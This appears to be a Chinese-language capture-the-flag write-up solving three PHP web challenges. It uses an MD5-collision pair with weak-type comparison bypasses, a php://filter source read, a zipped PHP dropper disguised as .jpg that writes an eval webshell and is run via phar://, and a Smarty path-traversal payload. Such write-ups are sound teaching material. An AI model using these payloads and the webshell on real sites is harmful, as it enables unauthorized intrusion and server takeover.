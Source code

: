 ### Writeup

[TOC]

#### 漏洞利用

##### bypass

利用PHP弱类型比较绕过，题目要求a和b不同而md5值相同，只需要找到符合这个条件的数据即可，使用GET传递

```
a=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2
&b=M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

is_numeric函数会检查输入是否是数字或数字字符串，只需要插入字母即可绕过，并要求passwd==123456，在弱类型比较下，123456a==123456。num使用科学计数法绕过，只需要传递1e8就会被解析为100000000，使用POST传递

```
passwd=123456a&num=1e8
```

##### php-include

扫描目录找到include.php和upload.php，大概是上传一个webshell并include执行的题目。include.php中提示了参数为file，尝试伪协议读取源代码，?file=php://filter/read=convert.base64-encode/resource=include，可以发现所有被include的文件都会加上.php后缀。

![](https://notes.sjtu.edu.cn/uploads/upload_bcecbeffb85d79c57391c44aec1dd75b.png)

![](https://notes.sjtu.edu.cn/uploads/upload_1a82ddc8494caf603a41a1ee72dee264.png)

![](https://notes.sjtu.edu.cn/uploads/upload_340834646547a742c943540c81cfa2a8.png)

upload.php限制了文件扩展名，只需要编写hell.php（用于生成webshell）进行压缩，再将压缩包后缀改为.jpg，上传后得到路径。

```php
<?php file_put_contents('shell.php','<?php eval($_POST[2])?>'); ?>
```

![](https://notes.sjtu.edu.cn/uploads/upload_3d095a49281d34f98dae5de62f5e0281.png)

使用phar伪协议可以将hell.jpg内的hell.php文件执行，在网站根目录生成webshell，使用蚁剑连接即可得到flag。

```
?file=phar:///uploads/hell.jpg/hell.php
```

![](https://notes.sjtu.edu.cn/uploads/upload_62417c8a1133ed9b09ef5de578f49e08.png)

##### smarty

在主要代码中未对用户输入进行过滤，即使有路径拼接，但可以使用路径穿越漏洞访问其他目录。

```php
if (isset($_GET['page']) && gettype($_GET['page']) === 'string') {
    $file_path = "file://" . getcwd() . "/pages/" . $_GET['page'];
    $smarty->display($file_path);
}
```

只需要输入以下payload即可。

```
?page=../../../../../../../flag
```

